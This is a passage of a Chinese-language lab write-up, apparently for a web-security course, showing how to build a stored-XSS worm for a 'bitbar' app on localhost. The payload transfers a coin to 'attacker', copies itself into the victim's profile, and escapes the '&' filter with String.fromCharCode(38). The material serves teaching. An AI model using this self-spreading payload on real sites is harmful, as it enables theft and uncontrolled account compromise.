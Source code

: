 转账完成后，更新当前用户的 profile，经过上面的源码分析，向 set_profile 发送 post 请求即可：

```js
req = new XMLHttpRequest();
req.withCredentials=true;
req.open('POST', 'http://localhost:3000/set_profile');
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
new_profile="new_profile=".concat(document.all.profile.innerHTML);
req.send(new_profile);
```

最终的代码：

```html
<a id= "bitbar_count" class="eval(document.all.mycode.innerHTML)">way</a>
<a id= "mycode">
    const params = "destination_username=attacker&quantity=1";
    var req = new XMLHttpRequest();
    req.withCredentials=true;
    req.open('POST', 'http://localhost:3000/post_transfer');
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    try { req.send(params); }
    finally {
        req = new XMLHttpRequest();
        req.withCredentials=true;
        req.open('POST', 'http://localhost:3000/set_profile');
        req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        new_profile="new_profile=".concat(document.all.profile.innerHTML);
        req.send(new_profile);
    }
</a>
```

设置 attacker 的 profile ，然后登录 user1 账户查看 attacker 的 profile：

发现 `&` 被转义为了 `amp;`，可以使用 `String.fromCharCode(38)` 来解决这个问题。修改后的代码：

```html
<a id= "bitbar_count" class="eval(document.all.mycode.innerHTML)">way</a>
<a id= "mycode">
    const params = "destination_username=attacker".concat(String.fromCharCode(38)).concat("quantity=1");
    var req = new XMLHttpRequest();
    req.withCredentials=true;
    req.open('POST', 'http://localhost:3000/post_transfer');
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    try { req.send(params); }
    finally {
        req = new XMLHttpRequest();
        req.withCredentials=true;
        req.open('POST', 'http://localhost:3000/set_profile');
        req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
        new_profile="new_profile=".concat(document.all.profile.innerHTML);
        req.send(new_profile);
    }
</a>
```
